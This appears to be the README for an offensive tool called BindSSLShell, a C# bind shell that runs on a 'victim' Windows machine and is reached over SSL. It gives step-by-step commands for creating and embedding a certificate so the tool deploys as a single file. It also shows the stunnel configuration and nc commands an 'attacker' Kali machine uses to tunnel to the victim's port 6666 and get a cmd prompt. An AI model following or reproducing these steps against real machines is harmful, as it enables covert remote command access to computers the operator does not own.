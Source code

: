 # BindSSLShell
How to BSOS [Bindshell over SSL] ver 1.0

* -Server (the victim): BindSSLShell.exe, console application coded in C# (FW Net 3.5) IDE Visual Studio CE 2017
* -Client (the attacker): Kali Linux with stunnel installed
<br/>
For the server side (the victim)

1. create the certificate:
   1. move to the makecert location, in my case C:\Program Files (x86)\Windows Kits\10\bin\10.0.17763.0\x64
   1. open a cmd as administrator and execute the following: makecert.exe -r -pe -n "CN=localhost" -sky exchange -sv server.pvk server.cer
   1. enter required password, then execute: pvk2pfx -pvk server.pvk -spc server.cer -pfx server.pfx. Enter required server password
1. include the Server.pfx as resource in your VS project (console app) and set the Copy to the output directory as Copy. Eventually you can embed the certificate and load it at runtime, more info: https://stackoverflow.com/questions/3314140/how-to-read-embedded-resource-text-file, so you will have to deploy a single file.
<br/>	
In our attacker machine (Kali Linux) we will use stunnel (since the server require SSL) in conjunction with nc

1. install stunnel:
	1. apt-get install stunnel
1. configure stunnel to forward nc traffic over his ssl tunnel. we must create the file /etc/stunnel/stunnel.conf with the following content:
	>[nc]<br/>
	>client = yes<br/>
	>accept = localhost:8443<br/>
	>connect = <Victim IP>:6666<br/>
	
	<br/>so we listeng on the port 8443 and we forward the traffic to the victim IP port 6666. Of coures you have to set the Victim Ip (server side) value according
	
1. start stunnel
	1. service stunnel4 start
		
1. check if it's running (optional)
	1. >netstat -tulp
	the output should be similar to:
	>Active Internet connections (only servers)
	>Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
	>tcp        0      0 localhost:8443          0.0.0.0:*               LISTEN      1156/stunnel4       
	>tcp6       0      0 localhost:8443          [::]:*                  LISTEN      1156/stunnel4       

1. presuming that you already lunched the bindshell on the victim you can connect to it through the tunnel:
	1. nc localhost 8443
	
1. you should get a cmd prompt
	


	



![...](img/shel_ssl.png?raw=true)
